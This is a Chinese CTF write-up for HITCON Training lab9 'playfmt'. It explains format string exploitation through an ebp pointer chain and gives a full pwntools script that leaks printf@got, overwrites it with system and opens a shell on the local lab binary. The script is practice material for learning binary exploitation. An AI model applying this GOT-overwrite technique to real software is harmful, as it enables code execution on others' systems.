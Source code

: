 ```yaml
---
title: lab9_playfmt
date: 2019-07-13
categories: 
- hitcon_trainning
tags: stack formating_string
---
```


# 格式化字符串漏洞

格式化字符串漏洞的两个利用方式     

- 泄露栈上内容  
- 改写某地址内容（前提是这个地址要在栈上，也就是printf可控的地方）

原理是**用格式化字符串对栈上的相对而言的参数进行解析**。  


>如果用的%k\$p、%k\$x等就是打印出来相对printf的第几个参数；  
>%s可以打印栈上地址指向的内容（等会用这个打印printf@got），也可以用来破坏程序；  
>%n可以向地址类参数指向的地方写入内容。 

---

# 思路

一开始就是没有思路，太菜了，真的太菜了TAT。  
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190713103412691.png)  
这里的buf是在bss段，也就是意味着没有办法用常规方法做。  
看了<a href="https://www.jianshu.com/p/2cae38284bff">大佬的wp</a>才知道可以控制ebp来实现地址任意写。  
但是我觉得或许用栈迁移也可以试一下。  
先写一波控制ebp！  

## 为什么buf在bss段就没法用常规方法？  
- 常规方法是利用栈上内容可写，将其写为某个地址，然后用%k$n这样的方式把这个地址指向的内容改掉。 而现在buf没法通过直接写入来控制栈上的地址。  

## **控制ebp**

现在关键是要找到栈上哪些位置里面的内容是地址而且是可以控制栈上别的位置的内容的，以此来写入我们的目的地址。这个地方就是ebp。  

ebp本来就是用来保存之前的ebp的内容。比如我们设想一个情况：
>ebp_1是相对printf的**第6个参数**，里面存着ebp_2的地址;    
>
>ebp_2是相对printf的**第10个参数**;
>
>格式化字符串漏洞就可以通过 **%6$n**改写ebp_2指向别的地方。  

改写过后，ebp_2内就是栈上另外位置的地址，我们假设他是fmt_7，是相对于printf的**第7个参数**。   

> **%10$n** 就可以让fmt_7指向printf@got。  
>   
> **%7$s** 就可以打印出printf@got的内容   

从而计算出system的真实地址。   
用 **%7$n**就可以直接改写printf@got为system的地址，接下来再调用printf就是调用system了。   

但是有一个问题，%k$**n**一用就炸，也就是说我们起码要用**hn**，在找fmt_7的时候要求其内容的前两个字节和got表的前两个字节是相同的。  
并且在改写printf@got的时候，至少要把它分为两次写进去，那么我们就还要有一个地方指向printf@got+2，这个地址的要求和fmt_7是一样的。
   
![在这里插入图片描述](https://img-blog.csdnimg.cn/2019071310343141.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20190713103441692.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxNjY3MzE2,size_16,color_FFFFFF,t_70)

# exp

```python
from pwn import *

context.log_level='debug'
context.terminal = ['deepin-terminal', '-x', 'sh', '-c']


sh = process('./playfmt')
elf = ELF('./playfmt')
libc = elf.libc

#gdb.attach(sh)

#-----------------address prepare----------------

printf_got = elf.got['printf']
printf_libc = libc.symbols['printf']
system_libc = libc.symbols['system']

sh.recv()
sh.sendline('%6$x')

ebp_2 = int(sh.recv(),16)
fmt_7 = ebp_2-0xc
fmt_11 = ebp_2+0x4
ebp_1 = fmt_7-0x4

#-----------------ebp_2-->fmt_7--------------------

payload = '%'+str(fmt_7 & 0xffff)+'c%6$hn\x00'
sh.sendline(payload)

sleep(0.3)

'''
这里的一段while，是因为%kc输出的实在太多了
recv()每次只能接受0x1000的内容
如果没有循环的话会卡住。
用一个标识符做接受完成标志
至于为什么这里每次都要sendline('yes!')
因为他可能前面的输出加上'ye'刚好就是0x100,后面就会因为只有's!'而没法跳出循环，就卡死了
[↑血的教训=皿=]
sleep(0.1)是两个sendline之间的常规操作来应对玄学问题[我猜的]。
'''
sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break



#-----------------fmt_7-->printf@got----------------

payload = '%' + str(printf_got & 0xffff)+'c%10$hn\x00'
sh.sendline(payload)

sleep(0.3)

sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break


#-----------------ebp_2-->fmt_11--------------------

payload = '%' + str(fmt_11 & 0xffff) + 'c%6$hn\x00'
sh.sendline(payload)

sleep(0.3)

sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break

#-----------------fmt_11-->printf@got+2---------------

payload = '%' + str((printf_got+2) & 0xffff) +'c%10$hn\x00'
sh.sendline(payload)

sleep(0.3)

sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break
#-----------------calculate system address-------------

sh.sendline('%7$s')
printf_elf = u32(sh.recv(4))

system_elf = printf_elf-printf_libc+system_libc

log.info('************{:#x}***********'.format(system_elf))

#----------------change global offset table------------

addr_1 = system_elf & 0xffff
addr_2 = system_elf>>16

'''
这里是防止addr_2比addr_1小
嘻嘻，从师傅那里偷学的方法=v=
'''

ls=[0,addr_1,addr_2]
ls.sort()
lis={0:0,addr_1:7,addr_2:11}

payload=''
for i in range(1,3):
    payload += '%' + str(ls[i]-ls[i-1]) + 'c%' + str(lis[ls[i]]) + '$n'
payload += '\x00'

log.info('************{}***********'.format(payload))

sh.sendline(payload)

sleep(0.3)

sh.sendline('yes!')
while True:
    sh.sendline('yes!')
    sleep(0.1)
    if sh.recv().find('yes!') != -1:
        break

sleep(0.1)

sh.sendline('/bin/sh')

sh.interactive()
sh.close()
```
---
# **栈迁移**

这个思路按理是可以的，把do_fmt的返回地址改成read的，按照常规栈迁移的套路来，然后用read做栈溢出，输入quit就可以开始栈迁移。但是ebp_1怎么变是一个问题，%k$n的输出太长了会炸是另一个问题，好麻烦啊。不想写了。【可能这就是我咸鱼的原因。】